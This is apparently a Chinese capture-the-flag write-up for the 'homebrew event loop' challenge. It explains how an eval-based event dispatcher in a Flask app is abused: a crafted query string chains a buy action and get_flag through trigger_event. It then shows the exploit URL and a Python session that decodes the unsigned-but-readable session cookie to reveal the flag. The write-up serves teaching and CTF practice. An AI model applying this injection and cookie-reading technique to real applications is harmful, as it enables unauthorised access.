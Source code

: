 #### homebrew event loop

><http://116.85.48.107:5002/d5af31f66147e857>

进入网站，发现有view source code页面，点击去可以看到这个网站的源码

发现这个网站是使用python+flask进行搭建。

执行流程为 

1. entry_point(): 解码用户的url参数，并将session中的钻石数量和点数读取出来。session默认情况下是存储到cookie中的。默认flask的session模块存储数据的时候不会进行加密（编码还是会做的），只进行了防篡改处理

2. trigger_event(): 将当前的请求url的参数放入到session["log"]中，最多只保留最新的5个请求参数，然后将当前请求加入到request.event_queue中

3. execute_event_loop(): 对request.event_queue中的请求逐个进行解析，获取用户需要执行什么函数，传递的参数是什么，然后进行调用。此处使用了eval函数来实现动态调用函数。



还有一些其他的参数

FLAG()：返回flag，不接受参数，因为不接受参数所以不能直接用execute_event_loop()中的eval进行调用



get_flag_handler(): 判断当前用户的钻石数量是否有五个或五个以上，如果是则调用trigger_event()函数，参数为`'func:show_flag;' + FLAG()`，否则参数为回到首页



show_flag_function(): 一个被干掉的后门，现在只能返回一个固定的字符串



buy_handler(): 调用这个函数需要传递一个整数数值，然后这个函数会把当前的钻石数量加上这个整数数值，然后再去调用consume_point_function()



consume_point_function(): 判断当前点数是否足够消费，如果不够则引发异常,将当前钻石数和点数回到前一个会话的状态



一开始我死磕eval函数，想着能通过字符的过滤，仔细想了想发现点括号之类的符号不让用，这个eval基本没法利用，只能调用一个能接受列表类型的参数的函数。

后来想去控制cookie中的钻石数和点数，来进行模板注入。发现都会将数据转成整型，这条路走不通。而且不知道appkey



### 正文



后来放了好几天，又重新读了一下源码，我发现我忽略了一个很重要的事就是可以通过利用eval函数，手工调用trigger_event()函数，向request.event_queue加入一系列事件。

通过这么调用`trigger_event([buy_handler(5), get_flag_handler()])`, 就可让execute_event_loop()执行buy_handler()，这样我便可以让自己的钻石数量达到5个，然后再紧接着调用get_flag_handler()函数将flag放到session中，我再解码cookie就能拿到flag，这样就算发生取消交易，flag还是在日志里，不会被删掉



关于为什么能做到上面这个操作，要同时看trigger_event和event_loop

```python
def trigger_event(event): 
    session['log'].append(event) 
    if len(session['log']) > 5: session['log'] = session['log'][-5:] 
    if type(event) == type([]): 
        request.event_queue += event 
    else: 
        request.event_queue.append(event) 
```

这个函数可以接收一个列表，接收到列表后会将列表与request.event_queue进行合并

这里想让那两个函数紧接着执行肯定需要给这个函数传递一个列表，列表元素为这两个函数名+对应的参数

从哪里去搞这个列表给他呢，刚好event_loop的对参数的解析能够给我们提供一个列表

```python
def execute_event_loop(): 
    valid_event_chars = set('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789:;#') 
    resp = None 
    while len(request.event_queue) > 0: 
        event = request.event_queue[0] # `event` is something like "action:ACTION;ARGS0#ARGS1#ARGS2......" 
        request.event_queue = request.event_queue[1:] 
        if not event.startswith(('action:', 'func:')): continue 
        for c in event: 
            if c not in valid_event_chars: break 
        else: 
            is_action = event[0] == 'a' 
            action = get_mid_str(event, ':', ';') 
            args = get_mid_str(event, action+';').split('#') 
```

这个函数的注释说了，一个事件格式是`action:ACTION;ARGS0#ARGS1#ARGS2...`

ACTION就是执行的函数名（虽然加了个后缀，但是因为eval，可以用#注释掉后面的后缀）

ARGS0#ARGS1#ARGS2就是执行这个函数时传递的参数，其中参数的分割是使用str的split方法，这样参数就变成了一个列表[ARGS0, ARGS1, ARGS2]，如果ACTION指定为trigger_event#，那么这个列表就会传进去

对于调用trigger_event，列表应该是[action:函数1;参数1#参数2, action:函数2;参数......]

对于想拿flag的利用，应该是[action:buy;5, action:get_flag;]



说完了原理，讲一下具体的利用过程

首先买5个钻石，再调用get_flag_handler把flag存储到cookie中

```
访问http://116.85.48.107:5002/d5af31f66147e857/?action:trigger_event%23;action:buy;5%23action:get_flag;
服务器会set-cookie，拿到这个cookie
```

![](imgs/cookie.jpg)

```python
$ python3
Python 3.5.2 (default, Nov 12 2018, 13:43:14)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from base64 import *
>>> from zlib import *

>>> decompress(urlsafe_b64decode("eJyNjltLwzAYhv-K5HoXaersWujN0BQGbXGrzUFEmmXOZmkW7LppRv-7QVCQeeHdx3t4vvcM9H4LksczuBIgAYwUsCHxUJrlR0Ok4XTxwinXwtyrEmElM30UyraS7qJiVbyycGkFur7hqIYU8Z6RdQTGyQWuWwSbqg-8deFILXHciQyb8pSmYHz6aXNTD8xZJdDUSRJoGs6PDZnC0j2kf5AMt5yuI5_Ycbr9Iv0GuSaLw--VechgXs-cVMUg8ew9v52fKMIl92OqO1ytglh57S0n_30GzNA9t4dN14METoDdt-bgz3D8BJe3cJs==="))

b'{"log":[{" b":"YWN0aW9uOnRyaWdnZXJfZXZlbnQjO2FjdGlvbjpidXk7NSNhY3Rpb246Z2V0X2ZsYWc7"},[{" b":"YWN0aW9uOmJ1eTs1"},{" b":"YWN0aW9uOmdldF9mbGFnOw=="}],[{" b":"ZnVuYzpjb25zdW1lX3BvaW50OzU="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],{" b":"ZnVuYzpzaG93X2ZsYWc7M3Y0MV8zdjNudF8xMDBwX2FOZF9mTEFTS19jMDBrMWU="},{" b":"YWN0aW9uOnZpZXc7aW5kZXg="}],"num_items":0,"points":3}'

>>> b64decode("ZnVuYzpzaG93X2ZsYWc7M3Y0MV8zdjNudF8xMDBwX2FOZF9mTEFTS19jMDBrMWU=")
b'func:show_flag;3v41_3v3nt_100p_aNd_fLASK_c00k1e'

```



如果session数据不是很长，flask会将session的数据存储到cookie的第一个点之前，使用base64编码

如果session数据较长，flask会将在cookie的第一个字符设为一个点，用于表示该数据被zlib压缩过。并且使用urlsafe_base64进行编码